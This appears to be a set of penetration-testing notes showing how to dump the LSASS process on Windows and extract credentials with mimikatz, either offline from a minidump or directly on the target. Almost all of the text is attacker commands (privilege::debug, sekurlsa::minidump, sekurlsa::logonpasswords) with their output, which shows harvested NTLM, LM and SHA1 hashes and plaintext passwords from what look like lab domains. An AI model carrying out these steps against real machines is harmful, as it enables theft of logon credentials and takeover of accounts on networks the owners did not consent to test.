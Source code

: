### mimikatz lsass.DMP local analyze

if we cant run mimikatz on target machine, we can get dump of lsass process and analyze local computer.

Create dump of process (need administrator rights)

![image](https://user-images.githubusercontent.com/13157446/130370304-7543ddde-fe67-4094-95d8-df3ecf252352.png)


Dump file is located

	C:\Users\win10\AppData\Local\Temp\lsass.DMP


Get passwords


	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::minidump lsass.DMP
	Switch to MINIDUMP : 'lsass.DMP'

	mimikatz # sekurlsa::logonpasswords full
	Opening : 'lsass.DMP' file for minidump...

	Authentication Id : 0 ; 2436075 (00000000:00252beb)
	Session           : Interactive from 1
	User Name         : win10
	Domain            : LOKI
	Logon Server      : LOKI
	Logon Time        : 8/21/2021 2:28:13 AM
	SID               : S-1-5-21-4116903850-2340306423-3138033007-1000
			msv :
			 [00010000] CredentialKeys
			 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
			 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
			 [00000003] Primary
			 * Username : win10
			 * Domain   : LOKI
			 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
			 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
			tspkg :
			wdigest :
			 * Username : win10
			 * Domain   : LOKI
			 * Password : (null)
			kerberos :
			 * Username : win10
			 * Domain   : LOKI
			 * Password : (null)
			ssp :
			credman :



### mimikatz logonpasswords

 cmd needs to run administrators rights / locally

	PS C:\Users\thor\Desktop\mimikatz\x64> .\mimikatz.exe

	  .####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
	 .# ^ #.  "A La Vie, A L'Amour" - (oe.eo)
	 # / \ #  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilki
	 # \ / #       > https://blog.gentilkiwi.com/mimikatz
	 '# v #'       Vincent LE TOUX             ( vincent.letoux@gm
	  '####'        > https://pingcastle.com / https://mysmartlogon

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::logonpasswords

	Authentication Id : 0 ; 5990364 (00000000:005b67dc)
	Session           : CachedInteractive from 1
	User Name         : Administrator
	Domain            : VALHALLA
	Logon Server      : ODIN
	Logon Time        : 13.08.2021 11:47:21
	SID               : S-1-5-21-3410397846-649609989-2919355437-500
			msv :
			 [00000003] Primary
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * LM       : 4fb7d301186e0eb3695109ab020e401c
			 * NTLM     : c718f548c75062ada93250db208d3178
			 * SHA1     : b27655136bebed1e53ded6cb9f837c450e7bb524
			tspkg :
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * Password : Pass123!
			wdigest :
			 * Username : Administrator
			 * Domain   : VALHALLA
			 * Password : Pass123!
			kerberos :
			 * Username : Administrator
			 * Domain   : VALHALLA.LOCAL
			 * Password : Pass123!
			ssp :
			credman :
			